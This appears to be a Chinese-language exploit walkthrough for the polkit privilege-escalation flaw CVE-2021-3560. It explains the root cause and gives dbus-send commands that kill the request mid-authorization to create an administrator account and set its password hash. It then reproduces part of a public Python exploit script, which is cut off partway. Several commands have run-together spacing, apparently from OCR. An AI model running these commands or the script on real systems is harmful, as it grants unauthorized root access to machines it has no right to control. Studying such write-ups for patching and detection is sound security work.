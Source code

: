 只要pid和uid获取到了，或者捕获到错误了，程序就继续运行。

**致命一击**来了，它有处理捕获到错误的情况吗？

没有，不管有没有出错它都设置uid，pid。而它们被初始化为了0。

具体源码分析看：https://github.com/hakivvi/CVE-2021-3560/blob/main/README.md





我们通过`dbus-send`工具向总线发起创建用户的请求，而`CreateUser` 本身是一个需要特权的操作，会向polkit请求授权。

这里的`org.freedesktop.Accounts`是D-BUS独有的命名规范。

```
dbus-send --system--dest=org.freedesktop.Accounts --type=method_call --print-reply/org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:zeeker string:"Zeeker Security"int32:1
```

指令前面加上time，多次测试这个指令执行时间，也就是进程存在时间。我们在进程正常死亡之前，也就是polkit仍在处理请求的过程中杀死进程断开连接来触发漏洞。因此后面加上`& sleep0.xxx s;kill$!` `$!`指最新创建的一个进程，也就是我们发起的这个。

执行可能会失败，多执行几次，直到看到用户创建成功。

这个用户没有密码我们登录不了，因此需要添加密码。使用`SetPasswd`方法，它和`CreateUser` 一样都是一个需要特权的操作，运用同样的方法即可添加成功密码。密码可以用`openssl passwd -5 `生成。

```
dbus-send --system--dest=org.freedesktop.Accounts --type=method_call --print-reply/org/freedesktop/Accounts/User1003 org.freedesktop.Accounts.User.SetPassword string:'$5$.lkCAL3dgdW0pp4L$bA.aAAHBpnlJdDhaSAorFNE4vVKtoU1nGsxFsBNqRb7'string:Whatever & sleep0.006s ; kill$!
```

Poc参考：https://github.com/hakivvi/CVE-2021-3560

https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py

```
import os
import sys
import time
import subprocess
import random
import pwd


print ("**************")
print("Exploit: Privilege escalation with polkit - CVE-2021-3560")
print("Exploit code written by Ahmad Almorabea @almorabea")
print("Original exploit author: Kevin Backhouse ")
print("For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/")
print ("**************")
print("[+] Starting the Exploit ")
time.sleep(3)

check = True
counter = 0
while check:
	counter = counter +1
	process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply','/org/freedesktop/Accounts','org.freedesktop.Accounts.CreateUser','string:ahmed','string:"Ahmad Almorabea','int32:1'])
	try:
    		#print('1 - Running in process', process.pid)
		Random = random.uniform(0.006,0.009)
		process.wait(timeout=Random)
		process.kill()
	except subprocess.TimeoutExpired:
    		#print('Timed out - killing', process.pid)
```